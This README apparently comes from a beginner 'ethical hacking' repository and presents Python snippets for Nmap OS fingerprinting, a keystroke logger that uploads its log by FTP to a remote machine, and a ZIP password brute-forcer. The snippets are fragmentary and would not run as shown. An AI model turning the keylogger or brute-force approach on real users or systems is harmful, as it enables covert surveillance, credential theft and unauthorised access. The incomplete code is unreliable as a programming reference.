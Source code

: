 # Ethical Hacking with Python

Ethical Hacking refers to the process of performing attacks on computer systems and networks to discover potential security weaknesses and help clients improve their security. It is common for ethical hackers to automate structured processes by writing their own scripts.

Python is a widely-used general-purpose, open-source, object-oriented HLL with libraries that can be used for hacking, making it ideal for implementing automation. Python's large community makes doubt resolution fast and easy.

This repository contains python3 scripts for automating basic tasks such as [OS fingerprinting](#os-fingerprinting), [keylogging](#keylogging), and [brute-forcing protected passwords](#bruteforce-protected-passwords). All instructions regarding customization have been provided in the scripts themselves.

## OS Fingerprinting

OS fingerprinting is the process of determining the operating system running on a system. By determining the OS of a system, tailor-made attacks can be launched against the target using known vulnerabilities.

In this script, the python3-nmap library has been used to bring the functionalities of Nmap to Python. Nmap is an open-source security auditing and network mapping tool that can "detect or diagnose services that are running on an Internet-connected system by a network administrator in their networked system". For more information, visit

https://nmap.org/book/osdetect-fingerprint-format.html

### Installation

```bash
pip install python3-nmap
```

### Usage

```python
import nmap    # import the nmap module
import sys     # import the sys module
import time    # import the time module

nm_scan = nmap.PortScanner() # initialise the Nmap PortScanner object for scanning
nm_scanner= nm_scan.scan(sys.argv[1],'80',arguments='-O')    # scan port 80 of target IP obtained using sys.argv[1]
with open("%s.txt"%sys.argv[1], 'w') as f:
    f.write(host_status+port_status+scan_method+os_guess)
    f.write("\nReport generated at: "+time.strftime("%Y-%m-%d_%H:%M:%S GMT", time.gmtime())) # generate timestamp
```

To run the script, open a terminal in the current directory and enter 

```bash
python os_fingerprint.py <target IP>
```

Here, <target IP> will be replaced by your target's IP address, and utilized as sys.argv[1] in the script. Before running the script, update the Environment Variables on your system

## Keylogging

Keystroke loggers, or keyloggers, are pieces of software that can log (and thus, track) the keys being pressed on a keyboard, in order to monitor the actions of the target.

In this script, pynput.keyboard, ftplib and logging modules of Python have been used to create a keylogger, store its results, and integrate FTP into it. No additional installations are required, as these modules are built-in.

The pynput package can control and monitor input devices, as explained on

https://pynput.readthedocs.io/en/latest/keyboard.html

File Transfer Protocol (FTP) is an internet protocol provided by TCP/IP used for transmitting files from one host to another. The ftplib module is used to implement the client side of the FTP protocol. For more information, visit

https://docs.python.org/3/library/ftplib.html

The logging module allows writing status messages to output streams such as files. Read about it on

https://docs.python.org/3/library/logging.html

### Usage

```python
from pynput.keyboard import Key, Listener   # import Key and Listener modules from pynput.keyboard package
import ftplib                               # import the ftplib module
import logging                              # import the logging module

def onKeyPress(Key):
    try:
        logging.info(str(Key)) # creates a definition for keypresses and takes the key as a parameter

sess= ftplib.FTP("", "", "")    # creates a new instance of the FTP class and makes a connection when host is provided
                                # insert target IP, username, password
```

In this script, a metasploitable machine is used as the FTP server where the file with the pressed keys exist. The IP address of the machine needs to be the same as the address in the script. To setup a metasploitable machine, follow this tutorial:

https://www.thesecuritygeeks.com/security/install-metasploitable-2-in-virtual-box/

The default username and password are "msfadmin". The machine's IP address can be found out by running the "ifconfig" command on it. Make sure your virtual machine is online before running this script on your local machine.

After the script has finished running, run the "ls -a" command on the virtual machine to check if the keylogger results have been shared with it or not. The original .txt file will be in the same directory as the script, on your local machine, and its copy should be present in the metasploitable machine.

## Bruteforce Protected Passwords

Bruteforcing is the process of attacking static parameters with several parameters to compare and match. Here, the parameter will be a protected password. This script uses the zipfile and argparse python modules for this process.

The zipfile module facilitates the creating, extracting, reading and writing to ZIP archives. The ZipFile() function returns a string or file object. For details, visit

https://docs.python.org/3/library/zipfile.html

The argparse module improves interaction by generating help, usage and error messages according to command-line arguments entered by the user. To see how this works, check

https://docs.python.org/3/library/argparse.html

### Usage

```python
from zipfile import ZipFile  # import the ZipFile module
import argparse              # import the argparse module

parser= argparse.ArgumentParser(description="\nUsage: python <brutefile.py> -z <zipfile.zip> -p <passwordfile.txt>")
parser.add_argument("-z", dest="ziparchive", help="Zip archive file")
parser.add_argument("-p", dest="passfile", help="Password file")
parsed_args= parser.parse_args()
ziparchive= ZipFile(parsed_args.ziparchive)

# Replace <brutefile.py> with the program name, <zipfile.py> with the target and <passwordfile.txt> with the list of passwords 
# -z and -p are arguments for ZipFile()
```

## Contributing

Pull requests are welcome and encouraged. As this repository is for scripting and ethical hacking beginners, please explore further and improve the functionalities of these scripts as desired. Try writing new scripts for automating other penetration testing tasks as well.
